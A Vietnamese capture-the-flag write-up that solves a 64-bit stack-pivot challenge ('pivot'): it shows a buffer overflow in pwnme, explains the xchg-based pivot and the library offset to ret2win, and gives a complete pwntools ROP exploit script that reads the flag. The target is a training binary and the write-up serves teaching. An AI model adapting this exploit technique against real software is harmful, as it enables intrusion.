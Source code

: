 **1. Tìm lỗi**

Chạy thử chương trình ta được

![run.png](photo/run.png)

Ta thấy chương trình cho phép nhập 2 lầ và kết thúc ngay sau đó

Dùng lệnh checksec để kiểm tra:

![checksec.png](photo/checksec.png)

Ta thấy canary đang ở trạng thái disabled -> Có thể khai thác bằng lỗi bof

Dùng lệnh file kiểm tra ta có:

![file.png](photo/file.png)

Là file elf 64 bit -> Mở bằng ida64 ta có hàm main như sau:

![main.png](photo/main.png)

Hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy biến s được khai báo 32 byte nhưng cho phép nhập 64 byte -> Có lỗi bof

Hàm uselessFunction:

![use.png](photo/use.png)

Hàm foothold_function:

![foot.png](photo/foot.png)

Hàm này chỉ in ra 1 chuỗi được gán vào rdi

Hàm free:

![free.png](photo/free.png)

Hàm usefulGadgets:

![gad.png](photo/gad.png)

 - xchg: là một lệnh x86-64 assembly. Nó hoán đổi giá trị của thanh ghi RSP (Stack Pointer) với giá trị của thanh ghi RAX.

Hàm ret2win:

![ret2win.png](photo/ret2win.png)

Hàm này đọc file flag.txt và in ra giá trị flag nên chúng ta cần cố gắng để thực thi được hàm này

**2. Ý tưởng**

Chúng ta cần thực thi hàm foothold_function bởi hàm này cung cấp một offset mà chúng ta sử dụng để tính. Sau khi kiếm được offset trên thì tính toán với địa chỉ được cấp phát bằng lệnh malloc

Thứ tự payload:
 - Lấy địa chỉ pivot
 - Gọi hàm foothold_function để thêm mục plt và got
 - Tính toán địa chỉ ret2wwin
 - call rax
 Sau đó chúng ta có thể sử dụng lại tiện ích để lấy địa chỉ heap 
 
**3. Viết script**

![ret2win.png](photo/ret2win.png)

Ta có địa chỉ hàm ret2win và foothold_function trong file libpivot.so như trên -> khoảng cách của 2 hàm là: 0xfffffee9

![pop_rdi.png](photo/pop_rdi.png)

Ta có được địa chỉ 0x0000000000400a33 chứa câu lệnh pop_rdi

Ta có được script như sau:

```
from pwn import *

elf = ELF('./pivot')
r = process("./pivot")

r.recvuntil('pivot: ')
pivot = int(r.recvline().strip(), 16)

pop_rax = 0x00000000004009bb
xchg = 0x00000000004009bd
foot_plt = elf.plt.foothold_function
foot_got = elf.got.foothold_function
put_pls = elf.plt.puts
ret2win = 0x0000000000000a81
foothold_function = 0x000000000000096a
add = ret2win - foothold_function
pop_rbp = 0x00000000004007c8
add_rax_rbp = 0x00000000004009c4
pop_rdi = 0x0000000000400a33
call_rax = 0x00000000004006b0
mov_rax = 0x00000000004009c0




payload = p64(foot_plt)
payload += p64(pop_rax)
payload += p64(foot_got)
payload += p64(mov_rax)
payload += p64(pop_rbp)
payload += p64(add)
payload += p64(add_rax_rbp)
payload += p64(call_rax)
r.sendlineafter("> ", payload)

payload = b'a'*40
payload += p64(pop_rax)
payload += p64(pivot)
payload += p64(xchg)
r.sendlineafter("> ", payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
